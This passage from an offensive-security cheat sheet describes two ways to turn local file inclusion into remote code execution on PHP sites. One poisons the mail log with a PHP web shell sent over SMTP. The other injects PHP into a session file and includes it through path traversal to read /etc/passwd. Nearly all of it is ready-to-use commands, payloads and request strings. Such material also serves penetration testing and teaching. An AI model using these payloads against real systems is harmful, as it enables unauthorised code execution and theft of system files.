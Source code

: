 ### RCE via Mail

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

## LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] or /var/lib/php/session/sess_[PHPSESSID] files

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```
